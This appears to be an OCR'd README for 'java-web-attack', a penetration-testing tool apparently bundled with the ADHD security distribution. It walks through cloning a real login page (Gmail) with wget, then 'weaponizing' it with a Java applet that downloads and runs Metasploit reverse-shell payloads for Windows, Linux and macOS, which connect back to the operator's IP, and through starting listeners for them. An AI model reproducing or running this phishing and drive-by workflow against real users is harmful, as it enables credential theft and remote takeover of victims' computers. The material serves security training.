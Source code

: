 The `clone.sh` script is a small convenience wrapper arount the following `wget` command:

`wget --no-check-certificate -O index.html -c -k -U "$chromeUA" "$1"`

Where `$chromeUA` is Google Chrome's User Agent string and `$1` is the URL to clone.

To run the script simply pass in the URL you wish to clone. For example, to clone Gmail run:

`/opt/java-web-attack#` **`./clone.sh https://gmail.com`**

        <<<snip>>>
        Saving to: ‘index.html’
            [ <=>         ] 74,115      --.-K/s   in 0.1s
        2015-02-21 02:52:13 (649 KB/s) - ‘index.html’ saved [74115]
        Converting index.html... 0-9
        Converted 1 files in 0.001 seconds.

As shown in the output, the file is saved to **index.html**. You can open this file in your web browser to see that
it was successfully cloned.

Example 2: Weaponizing a Web Page
---------------------------------

You need an HTML page and your IP address so that the payloads know where to connect. You can get an HTML page by cloning an existing site as in Example 1 or you can use the **example_gmail.html** file provided.

The basic usage of the `weaponize.py` script is to pass in the HTML file to modify and then the IP address of your ADHD machine.

`/opt/java-web-attack#` **`./weaponize.py index.html 172.16.215.138`**

        Generating Windows payload: windows/meterpreter/reverse_tcp...
        Generating Linux payload: linux/x86/meterpreter/reverse_tcp...
        Generating Mac OS X payload: osx/x86/shell_reverse_tcp...
        Weaponizing html...
        Creating listener resource script...
        All output written to the "output" directory.

        Run "serve.sh" to easily stand up a server.

All files generated are saved in the **output** directory. The directory should now contain these files:

* index.html - Copy of the HTML file you specified, now weaponized to deliver the Java applet payload.
* applet.jar - The Java applet that is inserted into the page.
* msf.exe - The Windows binary that the Java applet downloads and executes.
* nix.bin - The Linux binary that the Java applet downloads and executes.
* mac.bin - The Mac OS X binary that the Java applet downloads and executes.
* listeners.rc - A Metasploit resource file that starts listeners for each of the payloads for you.

Example 3: Starting the Attack Server
-------------------------------------

Setting up the server to deliver the weaponized page, payloads, and handlers requires an HTTP server and Metasploit. You can use any HTTP server, such as Apache. `weaponize.py` generates a **listeners.rc** file in the **output** directory that will set up the payload listeners.
